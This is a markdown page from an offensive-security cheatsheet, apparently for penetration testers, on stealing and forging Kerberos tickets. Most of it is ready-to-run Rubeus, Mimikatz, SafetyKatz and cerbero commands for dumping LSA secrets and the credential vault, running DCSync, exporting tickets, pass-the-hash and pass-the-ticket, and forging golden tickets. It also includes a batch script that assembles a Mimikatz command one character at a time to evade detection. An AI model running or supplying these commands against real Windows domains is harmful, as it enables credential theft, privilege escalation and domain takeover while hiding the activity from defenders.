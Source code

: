 ```yaml
---
layout: post
title: credentials / krb
category: 04-credentials
parent: cheatsheets
modified_date: 2025-02-05
permalink: /creds/krb
---
```


**Mitre Att&ck Entreprise**: [T1558 Steal and Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/) 

**Menu**
<!-- vscode-markdown-toc -->
* [tools](#tools)
	* [load-rubeus](#load-rubeus)
* [technics](#technics)
	* [command-obfuscation](#command-obfuscation)
	* [cleartext-2-nthash](#cleartext-2-nthash)
	* [get-tgt](#get-tgt)
	* [golden](#golden)
	* [silver](#silver)
	* [vault](#vault)
	* [lsadump-lsa](#lsadump-lsa)
	* [lsadump-dcsync](#lsadump-dcsync)
	* [ccache-convert](#ccache-convert)
	* [krb-export](#krb-export)
	* [krb-pth](#krb-pth)
	* [krb-ptt](#krb-ptt)
* [which-os-what-creds](#which-os-what-creds)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->



## <a name='tools'></a>tools

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var mm = ["https://api.github.com/repos/GhostPack/Rubeus","https://api.github.com/repos/Flangvik/BetterSafetyKatz","https://api.github.com/repos/gentilkiwi/mimikatz","https://api.github.com/repos/zer1t0/cerbero","https://api.github.com/repos/skelsec/pypykatz"]; for (rep in mm) {$.ajax({type: "GET", url: mm[rep], dataType: "json", success: function(result) {$("#mm_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.pushed_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="mm">
    <table id="mm_list" class="sortable">
      <tr><th>_repo</th><th>_last_pushed</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>

### <a name='load-rubeus'></a>load-rubeus
```powershell
```

## <a name='technics'></a>technics

### <a name='command-obfuscation'></a>command-obfuscation
```bat
REM script file to obfuscate the token manipulation commands 
 @echo off
set "z=s"
set "y=y"
set "x=e"
set "w=k"
set "v=e"
set "u=:"
set "t=:"
set "s=a"
set "r=s"
set "q=l"
set "p=r"
set "o=u"
set "n=k"
set "m=e"
set "l=s"
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
echo %Pwn%
C:\Users\Public\SafetyKatz.exe %Pwn% exit
```

### <a name='cleartext-2-nthash'></a>cleartext-2-nthash
```powershell
# compute nthash from clear-text password
cerbero hash $ztarg_user_pass -u $zdom_fqdn/$ztarg_user_name
$ztarg_user_nthash=""
$ztarg_user_aes256k=""
```

### <a name='get-tgt'></a>get-tgt
```powershell
cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_dc_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv
cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_computer_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv

./Rubeus.exe asktgt /user:$ztarg_user_name /password:$ztarg_user_pass /domain:$zdom /dc:$zdom_dc_fqdn /ptt
Invoke-Mimi -Command '"sekurlsa::ekeys"'
```

## forged-tickets

### <a name='golden'></a>diamond

### <a name='golden'></a>golden
```powershell
# contains secrets for the: scheduled tasks, ...
Rubeus.exe -args golden /aes256:$ztarg_user_hash /sid:$ztarg_user_sid /ldap /user:$ztarg_user_name /printcmd
```

### <a name='silver'></a>silver

| Service Type 				| 	Service Silver Tickets 	|
|---------------------------|---------------------------|
| WMI						| HOST RPCSS				|
| PowerShell Remoting 		| HOST HTTP (WSMAN RPCSS)	|
| WinRM						| HOST HTTP	 	 			|
| Scheduled Tasks 			| HOST 						| 
| Windows File Share (CIFS) | CIFS 						|
| LDAP operations (DCSync)  | LDAP 						|	
| Windows RSAT 				| RPCSS LDAP CIFS 			|	

### <a name='vault'></a>vault
```powershell
# contains secrets for the: scheduled tasks, ...
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```

### <a name='lsadump-lsa'></a>lsadump-lsa
```powershell
# dump lsa process
Invoke-Mimi -Command '"token::elevate" "lsadump::lsa /patch"'
Invoke-Mimi -Command '"token::elevate" "sekurlsa::evasive-keys /patch"'
```
### <a name='lsadump-dcsync'></a>lsadump-dcsync
```powershell
# dcsync
Invoke-Mimi -Command '"token::elevate" "lsadump::dcsync"'
```

### <a name='ccache-convert'></a>ccache-convert

```python
# Convert linux to windows krb ticket :
ticketConverter.py $ztarg_user_name".ccache" $ztarg_user_name".krb"
cerbero convert -i $ztarg_user_name".ccache" -o $ztarg_user_name".krb"
```

### <a name='krb-export'></a>krb-export
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

### <a name='krb-pth'></a>krb-pth
```powershell
# run powershell with pass-the-hash
mimikatz.exe
privilege::debug
sekurlsa::pth /user:$zlat_user /rc4:xxx  /domain:$zdom /dc:$zdom_dc_fqdn /run:"powershell -ep bypass"

# opth
Rubeus.exe -args %Pwn% /user:$ztarg_user_name /aes256:$ztarg_user_hash /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
Rubeus.exe -args %Pwn% /user:$ztarg_user_name /aes256:$ztarg_user_hash /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### <a name='krb-ptt'></a>krb-ptt
```bash
# Request a TGT as the target user and pass it into the current session
# NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs
.\Rubeus.exe asktgt /user:$ztarg_user_name /rc4:$ztarg_user_hash /ptt

# Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)
.\Rubeus.exe asktgt /user:$ztarg_user_name /rc4:$ztarg_user_hash /createnetonly:C:\Windows\System32\cmd.exe
```

## <a name='which-os-what-creds'></a>which-os-what-creds

![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)
